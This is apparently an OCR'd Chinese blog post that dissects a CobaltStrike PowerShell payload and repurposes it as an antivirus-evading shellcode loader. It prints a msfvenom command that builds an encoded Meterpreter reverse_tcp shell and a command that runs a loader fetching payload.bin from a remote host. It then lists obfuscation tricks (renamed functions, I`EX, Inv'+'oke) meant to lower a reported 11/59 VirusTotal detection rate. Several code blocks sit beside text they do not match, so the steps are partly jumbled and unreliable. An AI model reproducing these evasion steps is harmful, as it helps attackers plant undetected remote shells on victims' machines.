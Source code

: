 分析 CobaltStrike powershell command
----------------------------------

这里使用 CobaltStrike 4.1 来生成 payload

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6SianbnQVyEbHibpItCREyzIvPOtgrChbmPKBGpZ8uO8g5zXrzXdCoHolHK0Qw/640?wx_fmt=jpeg)

访问 83 端口的 a 文件，获取 payload 代码。  
查看代码，可以看到先使用 base64 解码一段字符串，又通过`IO.Compression.GzipStream`解压缩，并将代码进行 IEX 执行。

```
powershell -ExecutionPolicy bypass -File  aaaaa.ps1 >> old.txt
```

修改 IEX 为 echo，保存为 aaaa.ps1 文件，运行得到源码。

```
[Byte[]]$var_code = [System.IO.File]::ReadAllBytes('new.bin')
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6SianbnMMzYlxYo3FAt3lay2R00NFjkJRslcJ4LDNJ8DMLicMHGUJ7dxrAqF9g/640?wx_fmt=jpeg)

可以看出大概分为`func_get_delegate_type`、`func_get_proc_address`两个函数，然后是一个 base64 解码的函数，且将 byte 数组进行了 xor 的异或操作。然后分配一些内存，将有效负载复制到分配的内存空间中。最后判断计算机架构并执行。

那么关键位置就应该是这串 base 编码的数据了。事实上，这段数据是 bin 文件编码得来的。  
我们将该 byte 数组保存为 new.bin 文件。

```
powershell -ExecutionPolicy bypass -File old.ps1 http://106.xx.xx.xx/payload.bin
```

而后修改为读取 new.bin 文件内容到内存后再上线。  
即

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.211.55.26 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 -o /var/www/html/shell.bin
```

其余代码未修改。

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6Sianbny61XUmkV1B51hfKaCR7o5mswtj81hicLTFfARvHKqcPyQ15FYcV1kbg/640?wx_fmt=jpeg)

执行后可正常上线。  
放入 VT 查杀一下 11/59

![](https://mmbiz.qpic.cn/mmbiz_jpg/rTicZ9Hibb6RVFU1jC0hU4qibdrwo6SianbnbcfY8k8iaCiad6xpoU9Pt6tT9gicqB8EdWVovzOTRHaJOuPGSEXsIDRKA/640?wx_fmt=jpeg)

这时候我们就得到了 powershell 版的一个加载器，继续尝试修改该加载器本身的一些特征。

> 对`func_get_delegate_type`，`func_get_proc_address`两个函数重命名替换，对函数里面的一些变量进行重新定义
> 
> 重命名`$DoIt`为`$aaaa`
> 
> 修改 IEX 为 I`EX
> 
> 修改 Invoke 为 Inv'+'oke
> 
> 替换`$var_code`为`$acode` 
